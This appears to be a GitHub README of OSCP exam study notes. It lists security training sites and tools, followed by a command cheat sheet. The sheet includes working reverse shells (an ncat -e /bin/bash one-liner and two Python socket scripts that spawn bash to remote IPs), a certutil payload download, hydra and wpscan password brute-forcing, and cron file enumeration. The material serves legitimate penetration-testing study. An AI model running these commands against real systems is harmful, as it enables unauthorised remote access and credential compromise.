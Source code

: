 ## Useful Websites
[offical exam guide](https://help.offensive-security.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide) <br>
[offical exam report](https://www.offensive-security.com/pwk-online/PWK-Example-Report-v1.pdf) <br>
[pentest.ws](https://pentest.ws): note taking <br>
[Burp Suite](https://portswigger.net/burp): tool for exploring web security. [Configure browser with Burp Suite](https://www.youtube.com/results?search_query=Configure+with+Burp+Suite) <br>
[OWASP juice box](https://owasp.org/www-project-juice-shop/): OWASP security trainings<br>
[hack this site]<br>
[over the wire]<br>
[pwnable.kr/xyz]<br>
[hack the box]<br>
[cybrary]<br>
[google gruyeye]<br>
[game of hacks]<br>
[bWAPP]<br>
[Webgoat]<br>
[hashcat](https://hashcat.net/wiki/doku.php?id=hashcat): password recovery tool<br>
[feroxbuster](https://github.com/epi052/feroxbuster): powerful forced browsing tool (gobuster、dirb)<br>
[AutoRecon](https://github.com/Tib3rius/AutoRecon): multi-threaded network reconnaissance tool which performs automated enumeration of services<br>
[explainshell](https://explainshell.com/): explain command-line<br>
[SecLists](https://github.com/danielmiessler/SecLists): It's a collection of multiple types of lists used during security assessments, collected in one place

## :warning: Exam Restrictions

[linPEAS](https://www.offensive-security.com/offsec/understanding-pentest-tools-scripts/): Understanding the tools/scripts you use in a Pentest

## :hammer_and_wrench: Commands

### :open_file_folder: hydra

#### IMAP
```
hydra -L usernames.txt -P wordlists.txt -s 143 -f 192.168.0.1 imap
```
### :open_file_folder: cewl

```
cewl -d 4 https://192.168.0.1 -w /tmp/wordlists.txt
```

### :open_file_folder: download

#### windows

```
certutil -f -urlcache http://192.168.49.220:8000//veyon-service.exe veyon-service.exe
```
### :open_file_folder: nmap

```
nmap -T5 192.168.10.0/24
```

```
nmap -Pn -p- -sC -sV -T4 192.168.201.159 
```
### :open_file_folder: reverse shell

ncat 
```
ncat -e /bin/bash 192.168.10.58 8080
```

python3(file)
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.49.130",80)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```

python(file)
```
#!/usr/bin/env python
import os
import sys
try: 
        os.system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.112\",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")\'") 
except: 
        print 'ERROR...' 
sys.exit(0) 
```
### :open_file_folder: Cron jobs

```
crontab -l
```
```
ls -alh /etc/cron.* /etc/at*
```
```
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

unprivileged Linux process snooping: ![pspy](https://github.com/DominicBreuker/pspy)

### :open_file_folder: WordPress 

![WPScan](https://github.com/wpscanteam/wpscan)

Find exploit

```
wpscan --url http://192.168.0.1/
```

Enumerate valid usernames

```
wpscan --url http://192.168.0.1/ --enumerate u1-1000
```

Brute-force attack

```
wpscan --url http://192.168.0.1/ --passwords /usr/share/wordlists/rockyou.txt --max-threads 50 --usernames admin
```
